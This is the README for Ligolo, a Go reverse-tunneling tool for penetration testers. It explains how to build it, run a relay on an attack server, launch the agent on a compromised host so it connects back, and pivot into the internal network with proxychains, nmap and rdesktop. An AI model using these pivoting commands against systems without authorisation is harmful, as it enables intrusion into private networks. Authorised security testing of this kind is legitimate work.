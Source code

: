 # Ligolo : Reverse Tunneling made easy for pentesters, by pentesters

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

![Ligolo](img/ligolo.png)

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
## Table of Contents

- [Introduction](#introduction)
- [Use case](#use-case)
- [Quick Demo](#quick-demo)
- [Performance](#performance)
- [Usage](#usage)
  - [Setup / Compiling](#setup--compiling)
  - [How to use?](#how-to-use)
  - [TL;DR](#tldr)
  - [Options](#options)
- [Features](#features)
- [To Do](#to-do)
- [Licensing](#licensing)
- [Credits](#credits)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Introduction

**Ligolo** is a *simple* and *lightweight* tool for establishing *SOCKS5* or *TCP* tunnels from a reverse connection in complete safety (TLS certificate with elliptical curve).

It is comparable to *Meterpreter* with *Autoroute + Socks4a*, but more stable and faster.

## Use case

You compromised a Windows / Linux / Mac server during your external audit. This server is located inside a LAN network and
you want to establish connections to other machines on this network.

**Ligolo** can setup a tunnel to access internal server's resources.

## Quick Demo

Relay of a RDP connection using Proxychains (WAN).

![RDP](img/rdesktop_example.gif)

## Performance

Here is a screenshot of a speedtest between two 100mb/s hosts (ligolo / localrelay). Performance may vary depending on the system and network configuration.

![Speedtest](img/speedtest.png)

## Usage

### Setup / Compiling

Make sure *Go* is installed and working.

1. Get Ligolo and dependencies

```
cd `go env GOPATH`/src
git clone https://github.com/sysdream/ligolo
cd ligolo
make dep
```

2. Generate self-signed TLS certificates (will be placed in the *certs* folder)

```
make certs TLS_HOST=example.com
```

NOTE: You can also use your own certificates by using the `TLS_CERT` make option when calling *build*. Example: `make build-all TLS_CERT=certs/mycert.pem`.

3. Build

* 3.1. For all architectures

```
make build-all
```

* 3.2. (or) For the current architecture

```
make build
```

### How to use?

*Ligolo* consists of two modules:

- localrelay
- ligolo

*Localrelay* is intended to be launched on the control server (the attacker server).

*Ligolo* is the program to run on the target computer.

For *localrelay*, you can leave the default options. It will listen on every interface on port 5555 and wait for connections from *ligolo* (`-relayserver` parameter).

For *ligolo*, you must specify the IP address of the relay server (or your attack server) using the `-relayserver ip:port` parameter.

You can use the `-h` option for help.

Once the connection has been established between *Ligolo* and *LocalRelay*, a *SOCKS5* proxy will be set up on TCP port `1080` on the relay server (you can change the TCP address/port using the *-localserver* option).

After that, all you have to do is use your favorite tool (Proxychains for example), and explore the client's LAN network.

### TL;DR

On your attack server.

```
./bin/localrelay_linux_amd64
```

On the compromise host.

```
> ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
```

Once the connection is established, set the following parameters on the ProxyChains config file (On the attack server):

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5     127.0.0.1 1080
```

Profit.

```
$ proxychains nmap -sT 10.0.0.0/24 -p 80 -Pn -A
$ proxychains rdesktop 10.0.0.123
```

### Options

*Localrelay* options:

```
Usage of localrelay:
  -certfile string
    	The TLS server certificate (default "certs/server.crt")
  -keyfile string
    	The TLS server key (default "certs/server.key")
  -localserver string
    	The local server address (your proxychains parameter) (default "127.0.0.1:1080")
  -relayserver string
    	The relay server listening address (the connect-back address) (default "0.0.0.0:5555")
```

*Ligolo* options:

```
Usage of ligolo:
  -autorestart
    	Attempt to reconnect in case of an exception
  -relayserver string
    	The relay server (the connect-back address) (default "127.0.0.1:5555")
  -skipverify
    	Skip TLS certificate pinning verification
  -targetserver string
    	The destination server (a RDP client, SSH server, etc.) - when not specified, Ligolo starts a socks5 proxy server
```

## Features

- TLS 1.3 tunnel with TLS pinning
- Multiplatforms (Windows / Linux / Mac / ...)
- Multiplexing (1 TCP connection for all flows)
- SOCKS5 proxy or simple relay

## To Do

- Better timeout handling
- SOCKS5 UDP support
- Implement mTLS

## Licensing

GNU General Public License v3.0 (See LICENSING).

## Credits

* Nicolas Chatelain <n.chatelain -at- sysdream.com>

[![Sysdream](img/logo_sysdream.png)](https://sysdream.com)
